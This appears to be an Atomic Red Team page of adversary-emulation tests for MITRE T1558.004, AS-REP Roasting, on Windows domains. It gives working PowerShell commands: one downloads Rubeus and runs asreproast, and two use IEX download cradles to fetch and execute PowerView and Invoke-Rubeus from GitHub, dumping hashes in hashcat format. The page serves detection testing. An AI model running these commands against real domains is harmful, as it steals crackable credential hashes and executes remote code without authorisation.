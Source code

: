 ```yaml
---
tags: [T1558_004, atomic_test]
filename: "[[T1558.004 - Steal or Forge Kerberos Tickets- AS-REP Roasting]]"
---
```

# T1558.004 - Steal or Forge Kerberos Tickets: AS-REP Roasting

## Atomic Test #1 - Rubeus asreproast
Information on the Rubeus tool and it's creators found here: https://github.com/GhostPack/Rubeus#asreproast
This build targets .NET 4.5.  If targeting a different version you will need to compile Rubeus

**Supported Platforms:** Windows


**auto_generated_guid:** 615bd568-2859-41b5-9aed-61f6a88e48dd





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| local_folder | Local path of Rubeus executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads|
| local_executable | name of the rubeus executable | string | rubeus.exe|
| out_file | file where command results are stored | string | rubeus_output.txt|
| rubeus_url | URL of Rubeus executable | url | https://github.com/morgansec/Rubeus/raw/de21c6607e9a07182a2d2eea20bb67a22d3fbf95/Rubeus/bin/Debug/Rubeus45.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
cmd.exe /c "#{local_folder}\#{local_executable}" asreproast /outfile:"#{local_folder}\#{out_file}"
```

#### Cleanup Commands:
```powershell
Remove-Item "#{local_folder}\#{out_file}" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Computer must be domain joined
##### Check Prereq Commands:
```powershell
if((Get-CIMInstance -Class Win32_ComputerSystem).PartOfDomain) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Write-Host Joining this computer to a domain must be done manually
```
##### Description: Rubeus must exist
##### Check Prereq Commands:
```powershell
if(Test-Path -Path "#{local_folder}\#{local_executable}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-Webrequest -Uri #{rubeus_url} -OutFile #{local_folder}\#{local_executable}
```




<br/>
<br/>

## Atomic Test #2 - Get-DomainUser with PowerView
Utilizing PowerView, run Get-DomainUser to identify domain users. Upon execution, progress and info about users within the domain being scanned will be displayed.

**Supported Platforms:** Windows


**auto_generated_guid:** d6139549-7b72-4e48-9ea1-324fc9bdf88a






#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1' -UseBasicParsing); Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose
```






<br/>
<br/>

## Atomic Test #3 - WinPwn - PowerSharpPack - Kerberoasting Using Rubeus
PowerSharpPack - Kerberoasting Using Rubeus technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 8c385f88-4d47-4c9a-814d-93d9deec8c71






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Rubeus.ps1')
Invoke-Rubeus -Command "asreproast /format:hashcat /nowrap"
```






<br/>
